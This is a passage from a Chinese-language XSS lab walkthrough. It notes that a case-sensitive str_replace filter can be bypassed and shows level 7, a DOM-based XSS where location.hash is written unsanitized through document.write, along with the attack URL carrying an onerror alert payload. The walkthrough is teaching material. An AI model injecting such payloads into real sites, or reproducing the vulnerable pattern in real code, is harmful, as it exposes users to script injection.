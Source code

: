 **这里就是用操作替换script操作**
==但是有个严重错误str_replace默认区别大小写，而且替换只替换后面几个script，on，src，data，href==

---

### **第7关：DOM型XSS**
#### **漏洞代码**
```javascript
document.write('< img src="'+location.hash.slice(1)+'">')
```
#### **攻击链构造**
```
http://target#x" onerror="alert(1)
```
**DOM解析流程**：
1. `location.hash`获取#后的内容`x" onerror="alert(1)`
2. 拼接后生成：`< img src="x" onerror="alert(1)">`

![alt](第七关.jpeg)
